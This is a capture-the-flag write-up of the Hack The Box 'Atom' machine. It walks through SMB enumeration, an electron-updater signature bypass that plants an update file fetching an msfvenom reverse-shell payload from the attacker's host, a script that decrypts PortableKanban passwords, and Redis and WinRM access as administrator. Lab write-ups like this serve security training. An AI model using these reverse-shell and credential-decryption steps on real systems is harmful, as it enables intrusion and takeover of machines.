

<p align="center"></img></p>
<p align="center">Creator: <a href="https://app.hackthebox.eu/profile/13531">MrR3boot</a></p>

# Personal thoughts
Reversing an electron app, PortableKanban and Redis; these are the new stuff I learned from this box. I'm sure you'll learn many new stuff from this writeup. As usually, I tried to explain the steps as simple as I can. Hope you'll find it useful; if so, consider [suporting](https://www.buymeacoffee.com/f4T1H21) a student to get `OSCP` exam and __+respecting my profile in HTB__.

<a href="https://app.hackthebox.eu/profile/184235">
  
  </img>
</a>
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  
  </img>
</a><br><br>
Now, let me get right into it.

---

# Reconnaissance

Let's start with our favorite recon friend: `nmap`
```bash
nmap -sS -sC -sV -p- -T4 -O 10.10.10.237
```
```bash
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
135/tcp  open  msrpc        Microsoft Windows RPC
443/tcp  open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6379/tcp open  redis        Redis key-value store
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP|7 (89%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows XP SP3 (89%), Microsoft Windows XP SP2 (86%), Microsoft Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h20m39s, deviation: 4h02m32s, median: 37s
| smb-os-discovery:
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: ATOM
|   NetBIOS computer name: ATOM\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-11T08:55:19-07:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-07-11T15:55:17
|_  start_date: N/A
```

We have lots of `tcp` ports open. but this is a `Windows` box, so you need to get used to this much of open `tcp` ports. :wink:

Let's see what we get from the web port, which is in this case: `80/http`

## 80/http

A simple web site, I noticed a subdirectory called `releases` with an executable file in it.


After installing and extracting it, we notice an executable file.

```bash
┌──(root💀f4T1H)-[~/hackthebox/atom]
└─> curl http://10.10.10.237/releases/heed_setup_v1.0.0.zip -O
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 44.4M  100 44.4M    0     0   957k      0  0:00:47  0:00:47 --:--:--  934k

┌──(root💀f4T1H)-[~/hackthebox/atom]
└─> unzip heed_setup_v1.0.0.zip
Archive:  heed_setup_v1.0.0.zip
  inflating: heedv1 Setup 1.0.0.exe  

┌──(root💀f4T1H)-[~/hackthebox/atom]
└─> file heedv1\ Setup\ 1.0.0.exe
heedv1 Setup 1.0.0.exe: PE32 executable (GUI) Intel 80386, for MS Windows, Nullsoft Installer self-extracting archive
```

But trying to detect its format with `file` command outputs as `self-extracting archive`, and that looks like it needs to be extracted, lol.

```bash
┌──(root💀f4T1H)-[~/hackthebox/atom]
└─> mkdir heed && cd heed && 7z x ../heedv1\ Setup\ 1.0.0.exe 1>/dev/null && ls
'$PLUGINSDIR'  'Uninstall heedv1.exe'
```

Again extract the file `app-64.7z`

```bash
┌──(root💀f4T1H)-[~/hackthebox/atom/heed]
└─> cd \$PLUGINSDIR && ls
app-64.7z  nsis7z.dll  nsProcess.dll  SpiderBanner.dll  StdUtils.dll  System.dll  WinShell.dll

┌──(root💀f4T1H)-[~/hackthebox/atom/heed/$PLUGINSDIR]
└─> mkdir app-64 && cd app-64 && 7z x ../app-64.7z 1>/dev/null && ls
chrome_100_percent.pak  ffmpeg.dll  libEGL.dll            LICENSES.chromium.html  resources          swiftshader              VkLayer_core_validation.dll       VkLayer_threading.dll
chrome_200_percent.pak  heedv1.exe  libGLESv2.dll         locales                 resources.pak      v8_context_snapshot.bin  VkLayer_object_tracker.dll        VkLayer_unique_objects.dll
d3dcompiler_47.dll      icudtl.dat  LICENSE.electron.txt  natives_blob.bin        snapshot_blob.bin  VkICD_mock_icd.dll       VkLayer_parameter_validation.dll
```


After further enumeration, I came up with the two interesting things as follows:

- resources/app-update.yml
	- updates.atom.htb (Same site)
- resources/app.asar
	- Extracting with asar gives us a keyword!

```bash
┌──(root💀f4T1H)-[~/…/heed/$PLUGINSDIR/app-64/resources]
└─> mkdir app && cd app && asar e ../app.asar . && ls
createNote.html  icons  main.js  node_modules  package.json  version.html

┌──(root💀f4T1H)-[~/…/$PLUGINSDIR/app-64/resources/app]
└─> head main.js    
const {app, BrowserWindow, Menu, protocol, ipcMain} = require('electron');
const log = require('electron-log');
const {autoUpdater} = require("electron-updater");
const path = require('path');

autoUpdater.logger = log;
autoUpdater.logger.transports.file.level = 'debug';

let win;
let addWindow;
```

You see the third line? `electron-updater`, we got some new terms here!<br><br>
Okay but, what is `electron` ? We're not in physics class XD

>[Electron](https://www.electronjs.org/docs/tutorial/introduction) is a framework for building desktop applications using JavaScript, HTML, and CSS. By embedding Chromium and Node.js into its binary, Electron allows you to maintain one JavaScript codebase and create cross-platform apps that work on Windows, macOS, and Linux — no native development experience required.

And checking out for an exploit on google gives us [`Signature Validation Bypass`](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html).

## 445/smb

What is [smb](https://en.wikipedia.org/wiki/Server_Message_Block)?
>In computer networking, Server Message Block (SMB), one version of which was also known as Common Internet File System (CIFS /sɪfs/), is a communication protocol for providing shared access to files, printers, and serial ports between nodes on a network. It also provides an authenticated inter-process communication (IPC) mechanism. Most usage of SMB involves computers running Microsoft Windows, where it was known as "Microsoft Windows Network" before the introduction of Active Directory. Corresponding Windows services are LAN Manager Server for the server component, and LAN Manager Workstation for the client component.

```bash
┌──(root💀f4T1H)-[~/hackthebox/atom]
└─> smbclient -N -L //10.10.10.237/                  

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Software_Updates Disk      
SMB1 disabled -- no workgroup available

┌──(root💀f4T1H)-[~/hackthebox/atom]
└─> smbclient -N //10.10.10.237/Software_Updates
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jul 12 11:45:18 2021
  ..                                  D        0  Mon Jul 12 11:45:18 2021
  client1                             D        0  Mon Jul 12 11:45:18 2021
  client2                             D        0  Mon Jul 12 11:45:18 2021
  client3                             D        0  Mon Jul 12 11:45:18 2021
  UAT_Testing_Procedures.pdf          A    35202  Fri Apr  9 14:18:08 2021

		4413951 blocks of size 4096. 1369424 blocks available
smb: \> get UAT_Testing_Procedures.pdf
getting file \UAT_Testing_Procedures.pdf of size 35202 as UAT_Testing_Procedures.pdf (97.7 KiloBytes/sec) (average 97.7 KiloBytes/sec)
smb: \> exit

┌──(root💀f4T1H)-[~/hackthebox/atom]
└─> pdftotext UAT_Testing_Procedures.pdf

┌──(root💀f4T1H)-[~/hackthebox/atom]
└─> cat UAT_Testing_Procedures.txt
Heedv1.0
Internal QA Documentation

What is Heed ?
Note taking application built with electron-builder which helps users in taking important
notes.

Features ?
Very limited at the moment. There’s no server interaction when creating notes. So
currently it just acts as a one-tier thick client application. We are planning to move it to a
full fledged two-tier architecture sometime in the future releases.

What about QA ?
We follow the below process before releasing our products.
1. Build and install the application to make sure it works as we expect it to be.
2. Make sure that the update server running is in a private hardened instance. To
initiate the QA process, just place the updates in one of the "client" folders, and


]\
the appropriate QA team will test it to ensure it finds an update and installs it
correctly.
3. Follow the checklist to see if all given features are working as expected by the
developer.
```

- Here the first command I used for checking if we have passwordless access to `smb shares`.<br>
- Then we got into the `smb share` named `Software_Updates` (because we're struggling with electron-updater - on the other hand and that seemed as a good starting point to me for checking smb shares).<br>
- After that we saw a pdf and downloaded it sing the `get` command.<br>
- Converted it to text file and read it.

And the conclusion here is that we need to use the exploit we found through that client folders in the smb share named `Software_Updates`.


# Foothold: Signature Validation Bypass in electron-updater


Nice, let's give it a chance!

First create a payload with `msfvenom`.

```bash
┌──(root💀f4T1H)-[~/hackthebox/atom/exploit]
└─> msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.29 LPORT=2121 -f exe -o "f4T1H'.exe"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: f4T1H'.exe
```

After that calculate `f4T1H'.exe`'s sha512 hash.

```bash
┌──(root💀f4T1H)-[~/hackthebox/atom/exploit]
└─> shasum -a 512 f4T1H\'.exe | cut -d " " -f1 | xxd -r -p | base64 -w0
bhHHmCp0jbEhqyTM+ozDS0HuZyTO1GLl2LL7e/UtFDqpIOBdrkGaATy8WNhpoNuu7/IatCNwMYMWuoelZdTPzA==
```

Then `touch` a file named `latest.yml` and put the followings in it:

__latest.yml__
```yaml
version: 1.2.3
path: http://10.10.14.29/f4T1H.'exe
sha512: bhHHmCp0jbEhqyTM+ozDS0HuZyTO1GLl2LL7e/UtFDqpIOBdrkGaATy8WNhpoNuu7/IatCNwMYMWuoelZdTPzA==
releaseDate: '2021-03-16T11:17:02.627Z'
```

__Attention:__ SHA512 hash and the ip address will be yours in this case.

Start an http server on port `80`.

```bash
┌──(root💀f4T1H)-[~/hackthebox/atom/exploit]
└─> php -S 0.0.0.0:80
[XXX XX XX XX:XX:XX 2021] PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Finally execute the following so as to put your `latest.yml` in all of the client folders.

```bash
┌──(root💀f4T1H)-[~/hackthebox/atom/exploit]
└─> smbclient -N //10.10.10.237/Software_Updates -c 'put latest.yml client1/latest.yml; put latest.yml client2/latest.yml; put latest.yml client3/latest.yml'
putting file latest.yml as \client1\latest.yml (0.9 kb/s) (average 0.9 kb/s)
putting file latest.yml as \client2\latest.yml (0.9 kb/s) (average 0.9 kb/s)
putting file latest.yml as \client3\latest.yml (0.9 kb/s) (average 0.9 kb/s)
```

And listen on port `2121`.

```bash
┌──(root💀f4T1H)-[~/hackthebox/atom/exploit]
└─> nc -lvnp 2121
listening on [any] 2121 ...
```

After waiting for a few seconds (~15), if you do every step correctly, you'll get a shell from the box. If you couldn't get a shell, repeat the uploading process again or reset the machine (it was not stable for me).


# Privilege Escalation: PortableKanban & Redis

While enumerating inside the user's directories, I noticed a directory with a name which I hadn't heard so far. And we found a config (.cfg) file in it.

```shell
C:\Users\jason>dir Downloads\
dir Downloads\
 Volume in drive C has no label.
 Volume Serial Number is 9793-C2E6

 Directory of C:\Users\jason\Downloads

04/02/2021  08:00 AM    <DIR>          .
04/02/2021  08:00 AM    <DIR>          ..
03/31/2021  02:36 AM    <DIR>          node_modules
04/02/2021  08:21 PM    <DIR>          PortableKanban
               0 File(s)              0 bytes
               4 Dir(s)   5,610,684,416 bytes free

C:\Users\jason>Dir Downloads\PortableKanban
Dir Downloads\PortableKanban
 Volume in drive C has no label.
 Volume Serial Number is 9793-C2E6

 Directory of C:\Users\jason\Downloads\PortableKanban

04/02/2021  08:21 PM    <DIR>          .
04/02/2021  08:21 PM    <DIR>          ..
02/27/2013  08:06 AM            58,368 CommandLine.dll
11/08/2017  01:52 PM           141,312 CsvHelper.dll
06/22/2016  09:31 PM           456,704 DotNetZip.dll
04/02/2021  07:44 AM    <DIR>          Files
11/23/2017  04:29 PM            23,040 Itenso.Rtf.Converter.Html.dll
11/23/2017  04:29 PM            75,776 Itenso.Rtf.Interpreter.dll
11/23/2017  04:29 PM            32,768 Itenso.Rtf.Parser.dll
11/23/2017  04:29 PM            19,968 Itenso.Sys.dll
11/23/2017  04:29 PM           376,832 MsgReader.dll
07/03/2014  10:20 PM           133,296 Ookii.Dialogs.dll
04/02/2021  07:17 AM    <DIR>          Plugins
04/02/2021  08:22 PM             5,920 PortableKanban.cfg
01/04/2018  09:12 PM           118,184 PortableKanban.Data.dll
01/04/2018  09:12 PM         1,878,440 PortableKanban.exe
01/04/2018  09:12 PM            31,144 PortableKanban.Extensions.dll
04/02/2021  07:21 AM               172 PortableKanban.pk3.lock
09/06/2017  12:18 PM           413,184 ServiceStack.Common.dll
09/06/2017  12:17 PM           137,216 ServiceStack.Interfaces.dll
09/06/2017  12:02 PM           292,352 ServiceStack.Redis.dll
09/06/2017  04:38 AM           411,648 ServiceStack.Text.dll
01/04/2018  09:14 PM         1,050,092 User Guide.pdf
              19 File(s)      5,656,416 bytes
               4 Dir(s)   5,610,528,768 bytes free

C:\Users\jason>
```

__PortableKanban.cfg__

```
{"RoamingSettings":{"DataSource":"RedisServer","DbServer":"localhost","DbPort":6379,"DbEncPassword":"Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb","DbServer2":"","DbPort2":6379,"DbEncPassword2":"","DbIndex":0,"DbSsl":false,"DbTimeout":10,"FlushChanges":true,"UpdateInterval":5,"AutoUpdate":true,"Caption":"My Tasks","RightClickAction":"Nothing","DateTimeFormat":"ddd, M/d/yyyy h:mm tt","BoardForeColor":"WhiteSmoke","BoardBackColor":"DimGray","ViewTabsFont":"Segoe UI, 9pt","SelectedViewTabForeColor":"WhiteSmoke","SelectedViewTabBackColor":"Black","HeaderFont":"Segoe UI, 11.4pt","HeaderShowCount":true,"HeaderShowLimit":true,"HeaderShowEstimates":true,"HeaderShowPoints":false,"HeaderForeColor":"WhiteSmoke","HeaderBackColor":"Gray","CardFont":"Segoe UI, 11.4pt","CardLines":3,"CardTextAlignment":"Center","CardShowMarks":true,"CardShowInitials":false,"CardShowTags":true,"ThickTags":false,"DefaultTaskForeColor":"WhiteSmoke","DefaultTaskBackColor":"Gray","SelectedTaskForeColor":"WhiteSmoke","SelectedTaskBackColor":"Black","SelectedTaskFrames":false,"SelectedTaskFrameColor":"WhiteSmoke","SelectedTaskThickFrames":false,"WarmTasksThreshold":0,"WarmTaskForeColor":"WhiteSmoke","WarmTaskBackColor":"MediumBlue","WarmTaskFrameColor":"Goldenrod","HotTasksThreshold":1,"HotTaskForeColor":"WhiteSmoke","HotTaskBackColor":"Blue","HotTaskFrameColor":"Yellow","OverdueTaskForeColor":"WhiteSmoke","OverdueTaskBackColor":"OrangeRed","OverdueTaskFrameColor":"OrangeRed","WarmHotTaskFrames":false,"WarmHotTaskThickFrames":false,"BusinessDaysOnly":false,"TrackedTaskForeColor":"WhiteSmoke","TrackedTaskBackColor":"Red","ShowSubtasksInEditBox":true,"CheckForDuplicates":true,"WarnBeforeDeleting":true,"ProgressIncrement":5,"DisableCreated":false,"DefaultPriority":"Low","DefaultDeadlineTime":"PT0S","ShowTaskComments":true,"IntervalFormat":"Hours","WorkUnitDuration":1,"SelectAnyColumn":false,"ShowInfo":true,"CardInfoFont":"Segoe UI, 9pt","InfoTextAlignment":"Center","InfoShowPriority":true,"InfoShowTopic":true,"InfoShowPerson":true,"InfoShowCreated":true,"InfoShowDeadlineCompleted":true,"InfoShowSubtasks":false,"InfoShowEstimate":false,"InfoShowSpent":false,"InfoShowPoints":false,"InfoShowProgress":true,"InfoShowCommentsCount":false,"InfoShowTags":false,"InfoShowCustomFields":false,"ShowToolTips":true,"ToolTipShowText":true,"ToolTipTextLimit":200,"ToolTipShowPriority":true,"ToolTipShowTopic":true,"ToolTipShowPerson":true,"ToolTipShowCreated":false,"ToolTipShowDeadlineCompleted":true,"ToolTipShowSubtasks":true,"ToolTipShowEstimate":true,"ToolTipShowSpent":true,"ToolTipShowPoints":true,"ToolTipShowProgress":true,"ToolTipShowCommentsCount":false,"ToolTipShowTags":false,"ToolTipShowCustomFields":false,"TimerWorkInterval":25,"TimeShortBreakInterval":5,"TimerLongBreakInterval":15,"PlaySound":1000,"ActivateWindow":false,"TaskBarProgress":true,"EnableTimeTracking":true,"AlertOnNewTask":false,"AlertOnModifiedTask":false,"AlertOnCompletedTask":false,"AlertOnCanceledTask":false,"AlertOnReassignedTask":false,"AlertOnMovedTask":false,"AlertOnDeletedTask":false,"AlertMethod":"None","EmailLogon":true,"EmailReviewMessage":true,"EmailSmtpPort":587,"EmailSmtpDeliveryMethod":"Network","EmailSmtpUseDefaultCredentials":false,"EmailSmtpEnableSSL":false,"EmailSmtpTimeout":5,"EmailAttachFile":true,"EmailNewTaskSubject":"PortableKanban Notification: New task has been created","EmailDeletedTaskSubject":"PortableKanban Notification: Task has been deleted","EmailEditedTaskSubject":"PortableKanban Notification: Task has been modified","EmailCompletedTaskSubject":"PortableKanban Notification: Task has been completed","EmailCanceledTaskSubject":"PortableKanban Notification: Task has been canceled","EmailReassignedTaskSubject":"PortableKanban Notification: Task has been reassigned","EmailMovedTaskSubject":"PortableKanban Notification: Task has been moved","EmailSignature":"This is automatic message.","PluginsSettings":{"bd5d2026e1f7424eab8690a62ad05ad2":{},"07a0d797c97c41f789af21ff4298754e":{"SourceColumnId":"00000000000000000000000000000000","DestinationColumnId":"00000000000000000000000000000000","Age":30},"2e470c79feb946f2b6e74b35245f8e80":{"FromDate":"\/Date(1617346800000-0700)\/","ToDate":"\/Date(1617346800000-0700)\/","IncludeTopics":false,"IncludeTags":false,"IncludeComments":false,"ReportType":"Html","SortByUser":true},"680986568fed41c381ef9f230feaa102":{"RunOnStartup":false},"24b7acead7984f8ab16bdb0ae8559fb6":{"TopicId":"00000000000000000000000000000000","ColumnId":"00000000000000000000000000000000","FromPersonId":"00000000000000000000000000000000","ToPersonId":"00000000000000000000000000000000"}},"AutoLogon":false,"LogonUserName":"","EncLogonPassword":"","ExitOnSuspend":false,"DropFilesFolder":"Files","UseRelativePath":true,"ConfirmFileDeleteion":true,"DefaultDropFilesActionOption":"Copy","CreateNewTaskForEachDroppedFile":true,"ParseDroppedEmails":true,"RestoreWindowsLocation":true,"DesktopShortcut":false,"DailyBackup":false,"BackupTime":"PT0S","BlockEscape":false,"BlackWhiteIcon":true,"ShowTimer":true,"ViewId":"00000000000000000000000000000000","SearchInSubtasks":false,"ReportIncludeComments":true,"ReportIncludeSubTasks":true,"ReportIncludeTimeTracks":true,"ReportIncludeCustomFields":true},"LocalSettingsMap":{"ATOM":{"Left":320,"Top":2,"Width":800,"Height":601,"Minimized":false,"Maximized":false,"FullScreen":false,"Hidden":false,"AboutBoxLeft":0,"AboutBoxTop":0,"AboutBoxWidth":0,"AboutBoxHeight":0,"EditBoxLeft":0,"EditBoxTop":0,"EditBoxWidth":0,"EditBoxHeight":0,"EditBoxSplitterOrientation":1,"EditBoxSplitterDistance":0,"EditBoxFontSize":0,"EditBoxCommentsSortDirection":"Ascending","ReportBoxLeft":370,"ReportBoxTop":27,"ReportBoxWidth":700,"ReportBoxHeight":551,"SetupBoxLeft":370,"SetupBoxTop":52,"SetupBoxWidth":700,"SetupBoxHeight":501,"ViewBoxLeft":0,"ViewBoxTop":0,"ViewBoxWidth":0,"ViewBoxHeight":0,"LogonBoxLeft":520,"LogonBoxTop":202,"LogonBoxWidth":400,"LogonBoxHeight":201}}}
```

That seems like a `JSON` data, save it in a file on your local and parse it using `jq`.

```bash
┌──(root💀f4T1H)-[~/hackthebox/atom]
└─# cat configFile.cfg | jq . | head
{
  "RoamingSettings": {
    "DataSource": "RedisServer",
    "DbServer": "localhost",
    "DbPort": 6379,
    "DbEncPassword": "Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb",
    "DbServer2": "",
    "DbPort2": 6379,
    "DbEncPassword2": "",
    "DbIndex": 0,
```

We got some new keywords'n terms from here;
- An encrypted password used in logging into `RedisServer`: `Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb`

Let's first try to crack the password and then focus on `redis`.

### PortableKanban

Actually, I don't think what exactly PortableKanban is a must know thing for us. Because I've already found an exploit for it.<br>
(An app for scheduling your tasks with Kanban scheduling system, I couldn't control myself XD)<br><br>
[PortableKanban 4.3.6578.38136 - Encrypted Password Retrieval](https://www.exploit-db.com/exploits/49409)

I modified the exploit and got the password.

__pwdretrieve.py__
```python
#!/usr/bin/python3

import base64
from des import * #pip3 install des

def decode(hash):
        hash = base64.b64decode(hash.encode('utf-8'))
        key = DesKey(b'7ly6UznJ')
        return key.decrypt(hash, initial=b'XuVUm5fR', padding=True).decode('utf-8')

print(decode("Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb"))
```

```bash
┌──(root💀f4T1H)-[~/hackthebox/atom/privesc]
└─> python3 pwdretrieve.py
kidvscat_yes_kidvscat
```

Alternatively, we could find the password from `redis` service's configuration files.

```shell
PS C:\Program Files\Redis> type *.conf | findstr pass
type *.conf | findstr pass
requirepass kidvscat_yes_kidvscat
# If the master is password protected (using the "requirepass" configuration
# masterauth <master-password>
# resync is enough, just passing the portion of data the slave missed while
# 150k passwords per second against a good box. This means that you should
# use a very strong password otherwise it will be very easy to break.
# requirepass foobared
requirepass kidvscat_yes_kidvscat
# If the master is password protected (using the "requirepass" configuration
# masterauth <master-password>
# resync is enough, just passing the portion of data the slave missed while
# 150k passwords per second against a good box. This means that you should
# use a very strong password otherwise it will be very easy to break.
# requirepass foobared
```

Okay, it's time to have a look at the second term: `redis`.

### redis
What is [`redis`](https://redis.io/) ?
>Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache, and message broker. Redis provides data structures such as strings, hashes, lists, sets, sorted sets with range queries, bitmaps, hyperloglogs, geospatial indexes, and streams. Redis has built-in replication, Lua scripting, LRU eviction, transactions, and different levels of on-disk persistence, and provides high availability via Redis Sentinel and automatic partitioning with Redis Cluster.

So we'll connect to the redis server and login using the password we cracked, then look inside a bit.<br>
Install `redis-tools` package if you haven't had so.

```bash
┌──(root💀f4T1H)-[~/hackthebox/atom/privesc]
└─> redis-cli -h 10.10.10.237 -a kidvscat_yes_kidvscat
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
10.10.10.237:6379> ping
PONG
10.10.10.237:6379> info keyspace
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
10.10.10.237:6379> select 0
OK
10.10.10.237:6379> keys *
1) "pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff"
2) "pk:ids:User"
3) "pk:ids:MetaDataClass"
4) "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
10.10.10.237:6379> get "pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff"
"{\"Id\":\"ffffffffffffffffffffffffffffffff\",\"SchemaVersion\":\"4.2.0.0\",\"SchemaVersionModified\":\"\\/Date(1617420120000-0700)\\/\",\"SchemaVersionModifiedBy\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"SchemaVersionChecked\":\"\\/Date(-62135596800000-0000)\\/\",\"SchemaVersionCheckedBy\":\"00000000000000000000000000000000\",\"TimeStamp\":637530169345346438}"
10.10.10.237:6379> get "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
"{\"Id\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"Name\":\"Administrator\",\"Initials\":\"\",\"Email\":\"\",\"EncryptedPassword\":\"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi\",\"Role\":\"Admin\",\"Inactive\":false,\"TimeStamp\":637530169606440253}"
10.10.10.237:6379>
```

- The first command we used for connecting to the remote server and logging in with the password we found.<br>
- After connecting, `ping` command is used to test if a connection is still alive, or to measure latency.<br>
- After that we had a look at the key databases and `select` the only one.<br>
- Then listed the `keys` in it.<br>
- Finally read the key's content.

So now, we see another Encrypted Password, which belongs to Administrator according to this key.<br>
Let's crack it using the same algorithm but with another way: [CyberChef](https://gchq.github.io/CyberChef/)

Do what you see in the code but with blocks, first decode from `base64` then decrypt `DES` with the keys.<br>
[Shortcut to the recipe](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)DES_Decrypt(%7B'option':'UTF8','string':'7ly6UznJ'%7D,%7B'option':'UTF8','string':'XuVUm5fR'%7D,'CBC','Raw','Raw')&input=T2RoN04zTDlhVlE4L3NyZFpnRzJoSVIwU1NKb0pLR2k)


And as a last step before reading the root flag, connect to machine using `evil-winrm` with the credentials we found.

```bash
┌──(root💀f4T1H)-[~/hackthebox/atom/privesc]
└─> evil-winrm -i 10.10.10.237 -u administrator -p 'kidvscat_admin_@123'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
atom\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
e77baXXXXXXXXXXXXXXXXXXXXXx842dd
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

And we successfully pwned the machine...


---

# Closing
If you liked my writeup, consider [suporting](https://www.buymeacoffee.com/f4T1H21) a student to get `OSCP` exam and __+respecting__ my profile in HTB.

<a href="https://app.hackthebox.eu/profile/184235">
  
  </img>
</a>
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  
  </img>
</a>

# Resources
|`Electron`|https://www.electronjs.org/docs/tutorial/introduction|
|:-|:-|
|__`Signature Validation Bypass to RCE`__|__https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html__|
|__`smb`__|__https://en.wikipedia.org/wiki/Server_Message_Block__|
|__`PortableKanban Encrypted Password Retrieval`__|__https://www.exploit-db.com/exploits/49409__|
|__`redis`__|__https://redis.io/__|
|__`CyberChef`__|__https://gchq.github.io/CyberChef/__|


<br>

___-Written by f4T1H-___
